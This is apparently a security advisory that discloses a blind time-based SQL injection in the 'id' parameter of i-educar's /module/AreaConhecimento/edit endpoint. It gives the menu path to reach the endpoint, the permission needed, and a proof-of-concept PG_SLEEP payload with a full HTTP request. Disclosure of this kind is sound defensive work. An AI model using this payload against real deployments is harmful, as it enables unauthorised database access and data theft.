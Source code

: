 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `/module/AreaConhecimento/edit` Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `/module/AreaConhecimento/edit` endpoint of the _i-educar_ application, specifically in the `id` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/module/AreaConhecimento/edit`  
**Parameter:** `id`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Escola > Cadastros > Tipos > Regras de Avaliação > Listagem de áreas de conhecimento.

<img width="1455" height="662" alt="Pasted image 20250817192322" src="https://github.com/user-attachments/assets/10d69440-0c40-4cad-99fd-7c7588e8babc" />


Additionally, exploiting this vulnerability requires an account with permissions to **create/list the "Escola" menu**.

The application fails to properly validate and sanitize user input in the `id` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR`

This payload triggers a **5-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
POST /module/AreaConhecimento/edit?id=3'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 90
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/module/AreaConhecimento/edit?id=3
```